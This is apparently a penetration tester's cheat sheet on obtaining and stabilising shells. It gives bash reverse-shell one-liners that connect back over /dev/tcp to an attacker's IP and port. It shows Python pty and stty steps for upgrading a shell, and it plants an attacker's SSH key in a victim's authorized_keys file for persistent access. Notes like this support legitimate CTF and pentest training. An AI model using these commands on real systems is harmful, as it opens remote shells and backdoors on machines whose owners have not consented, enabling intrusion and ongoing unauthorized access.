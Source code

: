 # Shells

Always remember to check your IP: [[Linux Networking#Get your IP]]

## Bash Reverse

```bash
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

or

```bash
bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'
```

## Upgrading a Shell

Often, you can simply run `/bin/bash` or equivalent to launch a better shell.

Use `echo "$SHELL"` to determine the shell you're using. Then specify the full path to that shell and it will sometimes spawn you a better, more interactive shell.

```bash
┌──(mac㉿kali)-[~]
└─$ echo "$SHELL"
/bin/bash
┌──(mac㉿kali)-[~]
└─$ /bin/bash
```

### Using Python to spawn /bin/bash

```bash
which bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Backgrounding Shell Trick

Within your shell, possibly after spawning a `/bin/bash` process with python, do the following to fix the interactivity in your shell:

- Press `Ctrl + z` to background the process
- Execute the command `stty raw -echo` on your host machine
- Type `fg` on your host (you will not see this on screen)
- Press the `Enter` key twice

You should now have an interactive shell!

You can then run `export TERM=xterm` to allow clearing the terminal.

If your line wrapping seems off, you may need to recalibrate the columns and rows in your new shell. Do the following:

- Execute `stty -a` on your host machine and make a note of the rows and columns number
- In your new shell, execute `stty rows Y cols X` where Y is your number of rows and X is your number of columns

*Note:* This does not work in meterpreter or metasploit shells in general.

### Use your shell to write an SSH key

This is one of the most reliable ways of getting an interactive shell - if you have permissions to pull it off.

First, generate a key pair to use to access the box (do this on your host machine):

```bash
$ ssh-keygen -f key_name
```

Then read the public key and copy it to your clipboard:

```bash
$ cat key_name.pub
```

On the victim box, find the user you would like to remotely access - in this example, `victim`:

```bash
$ echo 'CONTENTS_OF_KEY' >> /home/victim/.ssh/authorized_keys
```

Then ssh in from your host:

```bash
ssh -i key_name victim@IP_ADDRESS
```

### Girsh

[Repo link](https://github.com/nodauf/Girsh)